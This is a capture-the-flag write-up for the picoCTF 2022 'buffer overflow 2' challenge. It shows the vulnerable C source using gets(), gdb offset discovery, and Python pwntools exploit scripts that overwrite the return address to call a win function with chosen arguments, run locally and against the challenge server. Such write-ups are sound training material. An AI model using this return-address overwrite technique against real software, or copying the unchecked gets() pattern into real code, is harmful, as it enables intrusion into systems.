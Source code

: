 # buffer overflow 2

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 300
Tags: picoCTF 2022, Binary Exploitation, gets, arguments_on_the_stack
Author: SANJAY C / PALASH OSWAL

Description:
Control the return address and arguments

This time you'll need to control the arguments to the function you return to! 
Can you get the flag from this program?

You can view source here. And connect with it using nc saturn.picoctf.net 52580

Hints:
1. Try using GDB to print out the stack once you write to it.
```

## Solution

This challenge is a continuation of the [previous challenge](buffer_overflow_1.md) but with arguments also.

### Analyze the given files

Lets start by looking at the given files. First the C source code.
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
Compared to the previous challenge the major differences are:
 - The argument checks in the `win` function
 - No printing of the memory address to help us
 - The slightly larger `BUFSIZE` of `100` bytes.

The `vuln` file is still a 32-bit non-stripped ELF binary
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_2]
└─$ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=a429aa852db1511dec3f0143d93e5b1e80e4d845, for GNU/Linux 3.2.0, not stripped
```

### Manually identifying the offset

Lets create a [de Bruijn sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence) that is 200 bytes long.
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_2]
└─$ ~/python_venvs/pwntools/bin/cyclic 200 > pattern_200.txt
```

Then we try it out locally to find the offset with `gdb`
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_2]
└─$ gdb -q vuln                 
Reading symbols from vuln...
(No debugging symbols found in vuln)
(gdb) run < pattern_200.txt 
Starting program: /mnt/hgfs/CTFs/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_2/vuln < pattern_200.txt
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Please enter your string: 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab

Program received signal SIGSEGV, Segmentation fault.
0x62616164 in ?? ()
(gdb) exit
A debugging session is active.

        Inferior 1 [process 87839] will be killed.

Quit anyway? (y or n) y

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_2]
└─$ ~/python_venvs/pwntools/bin/cyclic -l 0x62616164        
112
```
So the offset on the stack to the return address is `112` bytes.

### Get the addess of the win function

Now we need to find out the virtual address of the `win` function.  
This can be done with `objdump` or `gdb`
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_2]
└─$ objdump -t vuln | grep win
08049296 g     F .text  000000a2              win

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_2]
└─$ gdb -batch -ex 'info functions' vuln | grep win
0x08049296  win
```
So the address to `win` is `0x08049296`.

### Write an exploit

Lets write a small exploit in Python with the help of [pwntools](https://docs.pwntools.com/en/stable/index.html)
```python
#!/usr/bin/python

from pwn import *
import sys

offset = 112
padding = b'A'

win = p32(0x08049296)       # Address to win function
dummy = p32(0x42424242)     # Fake return address
arg_1 = p32(0xCAFEF00D)     # Argument 1
arg_2 = p32(0xF00DF00D)     # Argument 2

payload = padding*offset + win + dummy + arg_1 + arg_2
    
sys.stdout.buffer.write(payload)
```
And then we try it out locally
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_2]
└─$ echo "picoCTF{fake_flag}" > flag.txt

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_2]
└─$ ~/python_venvs/pwntools/bin/python local_exploit.py | ./vuln
Please enter your string: 
���AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�4321
picoCTF{fake_flag}
zsh: done                ~/python_venvs/pwntools/bin/python local_exploit.py | 
zsh: segmentation fault  ./vuln
```
It works, but later the program crashes due to un invalid memory address after the `win` function.  
We can ignore this.

### Get the flag

Lets modify the Python script to connect to the server instead
```python
#!/usr/bin/python

from pwn import *

SERVER = 'saturn.picoctf.net'
PORT = 52580

io = remote(SERVER, PORT)

offset = 112
padding = b'A'

win = p32(0x08049296)       # Address to win function
dummy = p32(0x42424242)     # Fake return address
arg_1 = p32(0xCAFEF00D)     # Argument 1
arg_2 = p32(0xF00DF00D)     # Argument 2

payload = padding*offset + win + dummy + arg_1 + arg_2
    
io.sendline(payload)
print(io.recvallS())
io.close()
```

And then we run the script to get the flag
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_2]
└─$ ~/python_venvs/pwntools/bin/python remote_exploit.py
[+] Opening connection to saturn.picoctf.net on port 52580: Done
[+] Receiving all data: Done (190B)
[*] Closed connection to saturn.picoctf.net port 52580
Please enter your string: 
ð
picoCTF{<REDACTED>}
```

For additional information, please see the references below.

## References

- [gdb - Linux manual page](https://man7.org/linux/man-pages/man1/gdb.1.html)
- [objdump - Linux manual page](https://man7.org/linux/man-pages/man1/objdump.1.html)
- [pwntools - Documentation](https://docs.pwntools.com/en/stable/index.html)
- [Wikipedia - Buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow)
- [Wikipedia - de Bruijn sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence)
